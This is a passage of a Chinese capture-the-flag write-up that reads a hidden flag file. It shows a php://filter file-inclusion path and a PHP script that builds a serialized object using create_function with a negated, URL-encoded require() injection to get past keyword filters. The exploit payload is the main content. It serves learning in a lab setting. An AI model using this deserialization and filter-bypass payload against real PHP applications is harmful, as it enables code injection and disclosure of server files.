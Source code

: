    但得到的是假的flag，提示真的flag在`Tru3flag.php`
   ![](https://i.loli.net/2021/09/26/JIVGtX2v5qHfOru.png)

2. 那么可以用文件包含+伪协议来读Tru3flag.php：

   ```php
   php://filter/convert.base64-encode/resource=Tru3flag.php
   ```

   伪协议中有关键字被过滤了，将其取反再urlencode编码再传入即可

   ```php
   <?php
   class A {
       public $var;
       public function __construct(){
           $this->var = new B();
       }
   }
   
   class B{
       public $func="create_function";
       public $arg;
       public function __construct(){
           $c=(~('php://filter/convert.base64-encode/resource=Tru3flag.php'));
           $this->arg = ';}require(~('.strval($c).'));//';
       }
   }
   
   $a = new A();
   echo urlencode(serialize($a));
   
   ?>
   ```

   将得到的base64值解码即得flag

![](https://i.loli.net/2021/09/26/H1KNUrnfqZgXWym.png)

